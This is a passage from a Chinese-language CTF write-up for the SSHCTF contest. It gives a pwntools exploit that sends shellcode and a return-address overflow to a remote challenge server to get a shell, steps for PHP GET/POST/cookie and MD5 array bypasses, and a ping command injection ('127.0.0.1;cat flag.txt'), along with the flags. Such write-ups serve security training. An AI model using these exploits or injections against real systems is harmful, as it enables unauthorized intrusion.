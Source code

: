 2. exp，获取到shell

   ```python
   from pwn import *
   context.log_level = 'debug'
   context.binary = 'babyshellcode'
   #sh = process('./babyshellcode')
   sh = remote('210.44.150.15', 23952)
   sh.recvuntil(b'shellcode:')
   shellcode = asm(shellcraft.sh())
   sh.sendline(shellcode)
   
   addr = 0x601280
   offset = 0x10 + 8
   payload = b'a' * offset + p64(addr)
   sh.recvuntil(b'access.')
   sh.sendline(payload)
   sh.interactive()
   ```

![](https://s2.loli.net/2024/11/14/DAVdaMgvWHGhuKQ.png)

``` 
SSHCTF{SHE11C0dE_HE1Ps_YOU_9E7_5HElL_cad5fe5d2704}
```

## Web

### php-intro

用burpsuite拦截（发送到repeater方便再次更改）

1. 第一关，GET和POST
   - GET：`/?first=new%20to%20SSHCTF`
   - POST：改成 POST ：在请求头中加上 `Content-Type: application/x-www-form-urlencoded`，再在请求头后空一行, 写上 `second=CTFer`
2. 第二关，COOKIE
   - 添加两个cookie：`user=linnco; password=123456`
3. 第三关，绕过md5
   - GET：再加上`&a[]=1&b[]=2`

![](https://s2.loli.net/2024/11/14/DjaFtJGRTlu1oIB.png)

``` 
SSHCTF{e0cfcd98cb09}
```

### Why not ping?

随便ping一个ip，有回显，尝试列出文件目录

输入`127.0.0.1;ls`，得到flag.txt在此目录

输入`127.0.0.1;cat flag.txt`，拿到flag
